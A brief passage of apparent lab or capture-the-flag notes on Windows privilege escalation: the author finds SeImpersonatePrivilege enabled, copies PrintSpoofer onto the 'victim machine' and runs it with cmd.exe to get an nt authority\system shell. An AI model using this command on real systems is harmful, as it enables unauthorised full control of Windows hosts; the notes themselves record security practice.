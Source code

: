 Ran `whoami /priv`
![[Pasted image 20240907113722.png]]

SeImpersonatePrivilege is enabled for the user
- Downloaded PrintSpoofer64.exe into the victim machine
- Running PrintSpoofer
```powershell
.\PrintSpoofer.exe -i -c cmd.exe
```
![[Pasted image 20240907113817.png]]
Successfully got access as `nt authority\system`

